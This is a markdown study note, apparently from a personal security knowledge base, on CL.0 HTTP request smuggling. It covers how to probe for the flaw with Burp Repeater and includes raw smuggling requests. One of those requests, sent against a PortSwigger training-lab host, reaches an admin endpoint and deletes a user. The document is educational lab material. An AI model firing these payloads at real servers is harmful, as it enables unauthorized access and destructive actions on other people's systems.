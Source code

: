 ## CL.0 vulnerabilities

Back-end servers can sometimes be persuaded to ignore the Content-Length header, which effectively means they ignore the body of incoming requests. This paves the way for request smuggling attacks that **don't rely on chunked transfer encoding or [HTTP/2 downgrading](HTTP-2%20downgrading.md)**.

To probe for CL.0 vulnerabilities, first send a request containing another partial request in its body, then send a normal follow-up request. You can then check to see whether the response to the follow-up request was affected by the smuggled prefix.

>[!question]- How to test it with Burpsuite?
>To try this yourself using Burp Repeater:
>1.  Create one tab containing the setup request and another containing an arbitrary follow-up request.
>2.  Add the two tabs to a group in the correct order.
>3.  Using the drop-down menu next to the **Send** button, change the send mode to **Send group in sequence (single connection)**.
>4.  **Change the `Connection` header to `keep-alive`.**
>5.  Send the sequence and check the responses.

Sample request:
```http
POST /vulnerable-endpoint HTTP/1.1                       # HTTP/1.1 200 OK
Host: vulnerable-website.com
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: CORRECT

GET /hopefully404 HTTP/1.1
Foo: x
```

Resulting request in the server queue:
```http
POST /vulnerable-endpoint HTTP/1.1                       # HTTP/1.1 200 OK
Host: vulnerable-website.com
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: CORRECT

GET /hopefully404 HTTP/1.1
Foo: xGET / HTTP/1.1                                     # 

--- SERVER RESPONSE ---

HTTP/1.1 404 Not Found (!!!)
Host: vulnerable-website.com
```

In the example above, the follow-up request for the home page has received a 404 response. This strongly suggests that the back-end server interpreted the body of the `POST` request (`GET /hopefully404...`) as the start of another request.

>[!tip]
>In the wild, we've mostly observed this behavior on endpoints that simply aren't expecting `POST` requests, so they implicitly assume that no requests have a body. Endpoints that trigger server-level redirects and requests for static files are prime candidates.

# Exploiting CL.0 & H2.0 vulnerabilities

You can exploit CL.0 vulnerabilities for the same vulnerabilities listed on [Exploiting HTTP & HTTP/2 Request Smuggling](HTTP%20Request%20Smuggling.md#Exploiting%20HTTP%20&%20HTTP/2%20Request%20Smuggling)

Non vulnerable request:
```http
POST / HTTP/2
Host: 0aee00c704e3b3f881c98a740074008c.web-security-academy.net     # HTTP/2 200 OK
Content-Type: application/x-www-form-urlencoded
Content-Length: 34
Connection: keep-alive

GET /hopefully404 HTTP/1.1
Foo: xGET / HTTP/2
Host: 0aee00c704e3b3f881c98a740074008c.web-security-academy.net     # HTTP/2 200 OK
```

Vulnerable request:
```http
POST / HTTP/2
Host: 0aee00c704e3b3f881c98a740074008c.web-security-academy.net     # HTTP/2 200 OK
Content-Type: application/x-www-form-urlencoded
Content-Length: 34
Connection: keep-alive

GET /hopefully404 HTTP/1.1
Foo: xGET / HTTP/2
Host: 0aee00c704e3b3f881c98a740074008c.web-security-academy.net     # HTTP/2 404 Not Found
```

Accessed `/admin` page and deleted carlos user (`/admin` was leaked in the same way):
```http
POST / HTTP/2
Host: 0aee00c704e3b3f881c98a740074008c.web-security-academy.net     # HTTP/2 200 OK
Content-Type: application/x-www-form-urlencoded
Content-Length: 34
Connection: keep-alive

GET /admin/delete?username=carlos HTTP/1.1
Foo: xGET / HTTP/2
Host: 0aee00c704e3b3f881c98a740074008c.web-security-academy.net     # HTTP/2 200 OK with /admin information
```

You can also use `expect` to desync the target:
- [CL.0 desync via vanilla Expect - Netlify CDN](../../Clippings/James%20Kettle%20-%20HTTP1.1%20must%20die%20the%20desync%20endgame.md#CL.0%20desync%20via%20vanilla%20Expect%20-%20Netlify%20CDN)
- [CL.0 desync via obfuscated Expect - Akamai CDN](../../Clippings/James%20Kettle%20-%20HTTP1.1%20must%20die%20the%20desync%20endgame.md#CL.0%20desync%20via%20obfuscated%20Expect%20-%20Akamai%20CDN)

# Examples

- [From Akamai to F5 to NTLM... With Love.](../../Readwise/Articles/Malicious%20Group%20-%20From%20Akamai%20to%20F5%20to%20NTLM...%20With%20Love..md)
- https://portswigger.net/web-security/request-smuggling/browser/cl-0